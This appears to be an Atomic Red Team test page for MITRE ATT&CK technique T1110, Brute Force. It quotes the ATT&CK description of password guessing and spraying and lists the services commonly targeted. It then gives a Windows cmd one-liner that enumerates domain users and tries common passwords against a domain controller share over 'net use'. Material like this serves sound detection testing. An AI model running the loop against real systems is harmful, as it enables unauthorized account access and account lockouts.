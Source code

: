 # T1110 - Brute Force

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1110)

<blockquote>Adversaries may use brute force techniques to attempt access to accounts when passwords are unknown or when password hashes are obtained.

[Credential Dumping](https://attack.mitre.org/techniques/T1003) is used to obtain password hashes, this may only get an
adversary so far when [Pass the Hash](https://attack.mitre.org/techniques/T1075) is not an option. Techniques to
systematically guess the passwords used to compute hashes are available, or the adversary may use a pre-computed rainbow
table to crack hashes. Cracking hashes is usually done on adversary-controlled systems outside of the target network. (
Citation: Wikipedia Password cracking)

Adversaries may attempt to brute force logins without knowledge of passwords or hashes during an operation either with
zero knowledge or by attempting a list of known or possible passwords. This is a riskier option because it could cause
numerous authentication failures and account lockouts, depending on the organization's login failure policies. (
Citation: Cylance Cleaver)

A related technique called password spraying uses one password (e.g. 'Password01'), or a small list of passwords, that
matches the complexity policy of the domain and may be a commonly used password. Logins are attempted with that password
and many different accounts on a network to avoid account lockouts that would normally occur when brute forcing a single
account with many passwords. (Citation: BlackHillsInfosec Password Spraying)

Typically, management services over commonly used ports are used when password spraying. Commonly targeted services
include the following:

* SSH (22/TCP)
* Telnet (23/TCP)
* FTP (21/TCP)
* NetBIOS / SMB / Samba (139/TCP & 445/TCP)
* LDAP (389/TCP)
* Kerberos (88/TCP)
* RDP / Terminal Services (3389/TCP)
* HTTP/HTTP Management Services (80/TCP & 443/TCP)
* MSSQL (1433/TCP)
* Oracle (1521/TCP)
* MySQL (3306/TCP)
* VNC (5900/TCP)

In addition to management services, adversaries may "target single sign-on (SSO) and cloud-based applications utilizing
federated authentication protocols," as well as externally facing email applications, such as Office 365.(Citation:
US-CERT TA18-068A 2018)

In default environments, LDAP and Kerberos connection attempts are less likely to trigger events over SMB, which creates
Windows "logon failure" event ID 4625.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Brute Force Credentials](#atomic-test-1---brute-force-credentials)

<br/>

## Atomic Test #1 - Brute Force Credentials

Creates username and password files then attempts to brute force on remote host

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_file_users | Path to a file containing a list of users that we will attempt to brute force | Path | DomainUsers.txt|
| input_file_passwords | Path to a file containing a list of passwords we will attempt to brute force with | Path | passwords.txt|
| remote_host | Hostname of the target system we will brute force upon | String | &#92;&#92;COMPANYDC1&#92;IPC$|
| domain | Domain name of the target system we will brute force upon | String | YOUR_COMPANY|

#### Attack Commands: Run with `command_prompt`!

```cmd
net user /domain > #{input_file_users}
echo "Password1" >> #{input_file_passwords}
echo "1q2w3e4r" >> #{input_file_passwords}
echo "Password!" >> #{input_file_passwords}
@FOR /F %n in (#{input_file_users}) DO @FOR /F %p in (#{input_file_passwords}) DO @net use #{remote_host} /user:#{domain}\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete #{remote_host} > NUL
```

<br/>
